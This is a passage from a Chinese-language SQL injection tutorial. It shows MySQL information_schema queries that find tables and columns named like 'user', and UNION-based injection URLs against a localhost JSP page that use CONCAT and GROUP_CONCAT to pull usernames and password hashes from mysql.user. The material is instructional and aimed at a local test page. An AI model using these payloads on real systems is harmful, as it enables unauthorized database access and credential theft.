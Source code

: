 ```
SELECT
i.TABLE_NAME,i.TABLE_ROWS
FROM information_schema.`TABLES` AS i
WHERE i.TABLE_NAME
LIKE '%user%'
ORDER BY i.TABLE_ROWS
DESC

```

查只在当前数据库查询：

```
SELECT
i.TABLE_NAME,i.TABLE_ROWS
FROM information_schema.`TABLES` AS i
WHERE i.TABLE_NAME
LIKE '%user%'
AND i.TABLE_SCHEMA = database()
ORDER BY i.TABLE_ROWS
DESC

```

查询指定数据库： ￼

![enter image description here](http://drops.javaweb.org/uploads/images/eb6fad068d7ef1afda999ab16ba4c70cad598e22.jpg)

查询字段当中带有user关键字的所有的表名和数据库名：

```
SELECT
i.TABLE_SCHEMA,i.TABLE_NAME,i.COLUMN_NAME
FROM information_schema.`COLUMNS` AS i
WHERE i.COLUMN_NAME LIKE '%user%' ￼

```

![enter image description here](http://drops.javaweb.org/uploads/images/213dcfa33bf56281e4fca2203aa019a43fa9b5a9.jpg)

#### CONCAT：

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1￼

```

![enter image description here](http://drops.javaweb.org/uploads/images/ca36a342cd56dd2fc3bfac2377521d56323bf71a.jpg)

#### GROUP_CONCAT

```
http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,GROUP_CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1

```
